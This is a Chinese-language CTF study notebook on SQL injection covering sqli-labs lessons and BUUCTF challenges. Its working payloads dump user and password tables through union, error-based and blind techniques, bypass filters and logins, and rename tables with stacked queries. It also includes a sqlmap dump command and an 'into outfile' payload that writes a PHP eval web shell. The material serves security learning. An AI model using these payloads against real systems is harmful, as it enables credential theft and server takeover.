



# CTF SQL Study

## Basic

*Challenge:* BUU SQL COURSE 1

Basic progress:

1. 寻找注入点（使用and or测试逻辑）

   * 注意数字型SQL和字符串型SQL，后者需要闭合引号

2. 查找泄漏顺序&位置

   1. 列数 使用 `order by`关键字
      ```sql
      1 order by 1,2,3
      ```

      * 若列数超出，则显示空行

   2. 列回显顺序
      ```sql
      ?id=-1 union select 1,2
      ```

3. 爆破数据库

   1. 数据库名`database()`

   2. 使用`information_schema`获得数据库信息
   
      ```sql
      union select 1,group_concat(schema_name),3 from information_schema.schemata
      ```
   
   3. 使用`information_schema`获得数据表信息
      ```sql
      ?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')
      ```
   
   4. 获得列名
      ```sql
      ?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='news' and table_name='admin')
      ```
   
   5. 爆破表
      ```sql
      ?id=-1 union select (select group_concat(username) from admin),(select group_concat(password) from admin)
      ```


## Little Tricks

### Basic

* 存在错误输出时，通过增加一些dumb占位以辅助查看完整语句

  * `?id=1'`:  use near ''1'' LIMIT 0,1' at line 1
  * `?id=1'asdf`: near 'asdf' LIMIT 0,1'，**发现使用单引号闭合**


### Comment

* \# 用于URL参数时，**会被认为是锚点**，需要使用`%23`替代
* `--+`同样可以作为注释符，等同于`-- `，但是空格同理会被URL略去，使用URL编码或在后面增加一个字符（使hackbar将空格编码）能够修正错误
* `/**/`内联注释，等同于空格，用于绕过

### PHP md5 SQL 注入

类型：`select * from usera where username = 'admin' and password = md5($pass,true)`

* `md5(string,raw)`: 将string 计算md5散列，128位，结果根据`raw`参数：
  * True: 原始 16字符二进制格式（即`chr()`）
  * False: 32 字符十六进制数 (8b -> 两个十六进制字符)

https://blog.csdn.net/iczfy585/article/details/106081299

1. **数字与字符串比较，只要开头相同即判定为相同**

2. **数字开头字符串不比较（... or str）**，开头为**不为0数字**，则逻辑运算后为1

   ```sql
   # Example: sql password bypass
   select * from user where password =''or'1234a';
   ```

3. md5散列后，只要能转换为`yyy'or'Nxxxx'`，其中N为非0数字，**即可完成SQL注入，绕过password判断**

* 万能密码：`ffifdyop` -> `md5('ffifdyop', True)="'or'6xxxxxx"`

### WAF绕过

https://blog.csdn.net/devil8123665/article/details/108746947

空格绕过：

* 其他符号，注释符

* **括号**

  * 在需要计算的位置增加括号，不会报错
    ```sql
    select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'test')
    ```


Union ban:

1. select未被ban：bool盲注 [Example](#[CISCN2019 华北赛区 Day2 Web1]Hack World)
2. 堆叠注入

## SQLi-labs

### Series 1 - Basic SQL injections

1. Simple sqli, same as [Basic](#Basic)
   ```sql
   id=0%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'), (select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')%23
   
   # dump table
   id=0%27 union select (select group_concat(id) from users),(select group_concat(id) from users),(select group_concat(password) from users)%23
   
   # dump uagents table (no content)
   ?id=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="uagents")
   
   
   ```

2. Numeric sqli, same as 1

3. 通过加入引号等，使SQL语句报错，报错输出`... syntax to use near 'union select 1,2,3#') LIMIT 0,1'`，**包含一个)，需要同时在sqli中闭合**

   * Source code:  `$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

   * `id=0'#`，输出`... right syntax to use near ''1'') LIMIT 0,1' at line 1`
   * `id=1")`，正常返回，**语句为单引号，双引号被解析为正常字符**，查询时被忽略
   * `id=5a') %23` 正常返回，`#` hackbar无法作为注释符号使用，加url encode `%23`通过
   * `?id=0') union select 1,2,3 %23`，获得字段回显
   * 后续正常注入

4. 单引号不报错，尝试其他符号用于闭合SQL语句

   * `?id=1"asdf %23`:   right syntax to use near` 'asdf #") LIMIT 0,1'` at line 1，**双引号+括号闭合**
   * `?id=1") order by 1,2,3 %23` Normal

5. 单引号闭合，查询成功后返回`You are in...........`

   * `?id=1' order by 1,2,3,4 %23`

   * 两种解题方式

     1. 布尔盲注爆破，脚本`sqli-blind-bruteforce-template.py` 多线程爆破数据库
        ```python
        
        ```
     
        
     
     2. 错误注入（**Recommended**，如题"Double Query"）。常用报错注入方式：
     
        1. `floor`函数注入 [reference](https://blog.csdn.net/miraclehw/article/details/129250360)
     
           ```sql
           # Prototype (dump user)
           id = 1 AND (SELECT 1 from 
           (SELECT count(*),concat(0x23,(SELECT schema_name from information_schema.schemata LIMIT 0,1),0x23,floor(rand(0)*2)) as x 
           from information_schema.`COLUMNS` GROUP BY x) 
           as y)
           # Payload
           'id=-1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1)) as x from information_schema.tables group by x%23
           ```
     
           * `floor(rand(0)*2)` 固定生成 `01101100111`序列，在执行group by 插入虚表时产生duplicated entry 错误
           * `count(*)`确保返回单行结果，保证内部子查询会对每一行执行

        2. `xpath` 报错注入 (`extractvalue` and `updatexml`): require mysql >= 5.1
           在xml路径（xpath）错误时，返回报错
     
           * ` updatexml(XML_document, XPath_string, new_value)`使用不同xml标记匹配和替换xml块
     
           * `extractvalue(XML_document, xpath_string)`从目标XML中返回匹配查询的字符串
     
           * payload
             ```sql
             and extractvalue(1,concat(0x7e,(select group_concat(username) from users),0x7e))
             ```

6. 与5相同，双引号闭合

7. 错误不回显，只展示信息，成功显示`You are in.... Use outfile......`

   * 双引号正常，单引号报错，**说明是单引号字符串，包含括号**，测试得到两个括号
   * 文件注入（未成功）`id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\softs\phpstudy_pro\WWW\sqlilabs2\Less-7\mm2.php"--+`

8. 布尔盲注，可使用Lesson-5中脚本进行自动化测试

   * 也可以使用**sqlmap**: ` sqlmap -u "http://2aba3d8b-3b64-4247-8942-4de7881a9d83.node5.buuoj.cn/Less-8/?id=1" --technique B -D security -T users -C username,password --dump --threads 10 --batch    `
   * 
   * 


## Examples

### [SUCTF 2019]EasySQL

**过滤**：

* `and`, `or`, `union`

保留：

* `select`

https://blog.csdn.net/StevenOnesir/article/details/110203051

**核心：猜测其结构为类似  `select $[_POST] || flag from flag_table`**

* `num || flag`: 输出恒为 1，`0 || flag` 为 0
* `str || flag`: 两边都相当于 0，结果为 0


### [强网杯 2019]随便注

https://blog.csdn.net/m0_73734159/article/details/134049744

1. `1, 2`返回数组

   ```php
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   ```
   
2. 返回两列

    ```sql
    '?inject=2' order by 3,2--+
    # error 1054 : Unknown column '3' in 'order clause'
    ```

**ban关键字**： `preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`

1. 关键词被ban，使用堆叠注入爆库

    ```sql
    '?inject=2'; show databases;--+'
    ```

    
    
1. 爆表
    ```sql
    '?inject=2'; show tables;--+
    ```
    
3. 爆列名
    ```sql
    '?inject=2'; show columns from words;--+
    array(6) {
      [0]=>
      string(2) "id"
      [1]=>
      string(7) "int(10)"
      [2]=>
      string(2) "NO"
      [3]=>
      string(0) ""
      [4]=>
      NULL
      [5]=>
      string(0) ""
    }
    array(6) {
      [0]=>
      string(4) "data"
      [1]=>
      string(11) "varchar(20)"
      [2]=>
      string(2) "NO"
      [3]=>
      string(0) ""
      [4]=>
      NULL
      [5]=>
      string(0) ""
    }
    'inject=2'; show columns from `1919810931114514`;--+
    array(6) {
      [0]=>
      string(4) "flag"
      [1]=>
      string(12) "varchar(100)"
      [2]=>
      string(2) "NO"
      [3]=>
      string(0) ""
      [4]=>
      NULL
      [5]=>
      string(0) ""
    }
    ```

    **表名为数字需要用反引号包含**

4. >所以说只能先查询id字段，然而另一个表只有一个flag字段是肯定爆不了flag的，并且类型为varchar字符串类型，而恰巧words数据表里面的data也是varchar类型，因此从这里就可以得到做题思路，通过rename函数进行改表，把1919810931114514改为words，增加新字段id，将flag改为data，将刚开始那个words表改为其他任意表。

    ```sql
    '?inject=1'; rename table words to backup; rename table `1919810931114514` to words; alter table words add id int unsigned not NULL auto_increment primary key; alter table words rename flag to data; --+
    ```

5. 直接提交 1，得flag

### [极客大挑战 2019]LoveSQL

* `username`, `password`双参数注入，两个参数均存在注入点，单引号闭合

* `username`在前，注释符会遮盖password溢出

* 3列返回

  ```sql
  '?username=1' order by 4%23&password=123456' order by 1 %23
  Unknown column '4' in 'order clause'
  ```

* union select 返回登陆成功
  ```sql
  'username=1' union select 1,2,3%23&password=123456' order by 4 %23
  
  Login Success!
  Hello 2!
  Your password is '3'
  ```

* 开始爆破
  ```sql
  'username=1' union select 1,2,database()%23&password=123456' order by 4 %23
  geek
  
  username=1' union select 1, (select group_concat(schema_name) from information_schema.schemata), database()%23
  information_schema,performance_schema,mysql,test,geek
  
  'username=1' union select 1, (select group_concat(table_name) from information_schema.tables where table_schema='geek'), database()%23
  geekuser,l0ve1ysq1
  
  'username=1' union select 1, (select group_concat(column_name) from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1')
  id,username,password
  
  'username=1' union select 1, group_concat(username), group_concat(password) from l0ve1ysq1 %23
  Finish
  ```
  

### [极客大挑战 2019]HardSQL

* 符号Ban
  ```
  ' ', '%09-%0e', '='
  ```

* 用`()`绕过
  ```sql
  'password=123456'or(1)%23		# Login Success
  ```

* 关键词ban `union, select`

* **报错注入**

```sql
# Dump table
'&password=123456'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'geek')),0x7e)))%23

# Dump columns
'&password=123456'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like'H4rDsq1')),0x7e)))%23
# ~id,username,password~

# Dump table
'&password=123456'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e)))%23
# '~flag{e2e491b5-ac46-435d-9b23-ec'

# TOO long, dump latter half
# Substr,mid banned, use `right`
'&password=123456'or(extractvalue(1,concat(0x7e,right((select(group_concat(password))from(H4rDsq1)),15),0x7e)))%23
# 3-ec78133a5786}

# flag{e2e491b5-ac46-435d-9b23-ec78133a5786}
```


### [GXYCTF2019]BabySQli

* comment decoded: `select * from user where username = '$name'`

* Ban `or, and` -> `|| &&`
* Ban `=`
* Ban `()`
* **存在报错**
* 实际发现name查询返回3字段

1. 让原查询返回空，union查询可以用于泄漏字段位置等信息
   ```sql
   'name=admn'union select 1,'admin',3 #&pw=123456?
   # wrong pass, 说明返回的用户名在2上
   ```

2. 猜测返回 `id, username, password`

3. *源码发现password为md5加密*（目前没有找到不通过加密解决的办法）

4. **手动构造密码记录**

   ```sql
   'name=admn'union select 1,'admin','202cb962ac59075b964b07152d234b70' #&pw=123
   ```


### [GYCTF2020]Blacklist

* 类似qwb2019，提示*Black list is so weak for you,isn't it*
* 仍然使用堆叠注入得到库名`supersqli`，表名`FlagHere`, `words`
* select 被ban ： `return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`
  * qwb`preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，**增加set，alter, prepare, rename**

* **handler** mysql专用语句，用于逐行读取

  1. HANDLER tbl_name OPEN
     打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
  2. HANDLER tbl_name READ FIRST
     获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
  3. HANDLER tbl_name CLOSE
     关闭打开的句柄。
  4. HANDLER tbl_name READ index_name = value
     通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

* ```mysql
  '?inject=1';handler FlagHere open;handler FlagHere READ FIRST;%23
  ```


### [CISCN2019 华北赛区 Day2 Web1]Hack World

* 错误不回显，返回`bool(false)`

* `%23`: `SQL Injection Checked.`

* **Ban**: `# - + ` -> 闭合过滤

* Ban: `or ||`

* Ban: ` ` 括号绕过

* **给出目标表&列，可以盲注**

  ```sql
  id=(select(1=2))	# Error xxx (null result)
  id=(select(1=1))	# Hello, xxx
  ```

* Prototype
  ```sql
  # DATA
  CREATE TABLE test (
      id INT AUTO_INCREMENT PRIMARY KEY,
      name VARCHAR(255) NOT NULL,
      password VARCHAR(255) NOT NULL
  );
  INSERT INTO test (name, password) VALUES ('Admin', 'password');
  INSERT INTO test (name, password) VALUES ('Bob', 'password2');
  INSERT INTO test (name, password) VALUES ('Charlie', 'password3');
  
  select(ascii(mid((select(group_concat(name))from(test)),1,1))=0x42)		# 0
  select(ascii(mid((select(group_concat(name))from(test)),1,1))=0x42)		# 1
  ```

  * 应对多个记录，增加group_concat

* payload (`group_concat`被ban，但是只有一条记录)
  ```sql
  id=(select(ascii(mid((select(flag)from(flag)),{pos},1))={val}))
  ```

  
